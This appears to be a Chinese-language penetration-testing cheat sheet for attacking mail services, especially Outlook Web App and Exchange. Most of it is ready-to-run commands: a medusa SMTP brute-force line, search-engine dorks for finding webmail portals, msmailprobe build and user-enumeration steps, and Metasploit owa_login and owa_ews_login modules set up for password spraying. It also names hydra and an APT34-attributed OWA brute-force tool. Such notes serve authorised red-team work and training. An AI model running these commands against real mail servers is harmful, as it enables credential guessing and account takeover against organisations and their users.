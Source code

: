 ### 爆破账户弱口令

- medusa、hydra、SNETCracker、APT34组织 owa爆破工具
- medusa -h xxx.xxx.xxx.xxx -U user.txt -e ns -P pwd.txt -t 2 -T 2 -M smtp -R 3

### 邮件服务入口

- 1.查询域名MX记录找到真实ip,扫描该ip的C段，端口(25、109、110、143、465、995、993)
2.扫描子域名
3.搜索引擎、Shodan、fofa、zoomeye搜索
	site:target.com intitle:"Outlook Web App"
	site:target.com intitle:"mail"
	site:target.com intitle:"webmail"

### Outlook Web App

- 信息收集

	- msmailprobe

		- git clone https://github.com/busterb/msmailprobe.git
wget -c https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz
tar -C /usr/local -zxvf go1.8.3.linux-amd64.tar.gz
vim /etc/profile
export PATH=$PATH:/usr/local/go/bin
source /etc/profile
go build msmailprobe.go
./msmailprobe identity -t target.com

- 枚举邮箱用户

	- msmailprobe

		- ./msmailprobe userenum --onprem -t mail.target.com -U userList.txt -o validusers.txt --threads 25

- 爆破登录入口

	- msf > use auxiliary/scanner/http/owa_login

		- msf > set bruteforce_speed 0
msf > set rhost xxx.xxx.xxx.xxx
msf > set user_file /root/wordlist/user.txt
msf > set password admin@123
msf > set enum_domain true 
msf > set threads 1
msf > set stop_on_success false 
msf > set verbose true
msf > run

- 爆破EWS接口

	- msf > use auxiliary/scanner/http/owa_ews_login

		- msf > set rhosts xxx.xxx.xxx.xxx
msf > set user_file /root/wordlist/user.txt
msf > set password admin@123
msf > set stop_on_success false
msf > set threads 2
msf > set verbose true
msf > run
